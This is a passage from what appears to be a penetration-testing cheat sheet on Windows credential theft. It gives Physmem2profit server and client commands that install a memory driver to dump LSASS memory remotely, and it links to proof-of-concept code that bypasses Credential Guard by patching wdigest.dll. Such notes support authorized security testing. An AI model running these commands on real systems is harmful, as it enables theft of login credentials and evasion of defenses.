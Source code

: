 

### Physmem2profit

- [https://labs.withsecure.com/blog/rethinking-credential-theft/](https://labs.withsecure.com/blog/rethinking-credential-theft/)
- [https://github.com/FSecureLABS/physmem2profit](https://github.com/FSecureLABS/physmem2profit)
- [https://github.com/Velocidex/WinPmem/releases/tag/v4.0.rc1](https://github.com/Velocidex/WinPmem/releases/tag/v4.0.rc1)

Server:

```
PS > .\Physmem2profit.exe --ip 192.168.1.11 --port 1337 --verbose [--hidden]
```

Client:

```
$ python3 physmem2profit --host 192.168.1.11 --port 1337 --install "C:/Windows/Temp/winpmem_x64.sys" --mode all --driver winpmem
```




## Credential Guard



### Patch and Bypass

- [https://icebreaker.team/blogs/sleeping-with-control-flow-guard/](https://icebreaker.team/blogs/sleeping-with-control-flow-guard/)

Patch the `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variables by their hardcoded offsets within `wdigest.dll` loaded by LSASS:

- [https://teamhydra.blog/2020/08/25/bypassing-credential-guard/](https://teamhydra.blog/2020/08/25/bypassing-credential-guard/)
- [https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240](https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240)

Resolve `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variable offsets dynamically at runtime:

- [https://itm4n.github.io/credential-guard-bypass/](https://itm4n.github.io/credential-guard-bypass/)
- [https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp](https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp)

Two PoCs above merged:

- [https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99](https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99)



### PassTheChallenge
